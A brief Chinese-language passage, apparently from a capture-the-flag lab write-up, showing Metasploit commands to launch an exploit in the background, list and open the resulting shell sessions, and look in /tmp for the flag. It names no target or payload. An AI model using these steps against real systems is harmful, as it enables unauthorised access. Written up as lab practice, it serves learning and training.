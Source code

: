 ![](./img/1op.png)

```shell
exploit -j  
#进行漏洞攻击 -j使攻击操作在后台运行
```
我这里不小心打成`exploit -y`了导致直接打开了攻击成功的session
理论上是应该
```shell
sessions -l #查看已有session
sessions -i 1(session ID) #打开session
```
打开session后使用
`ls /tmp`查看入口flag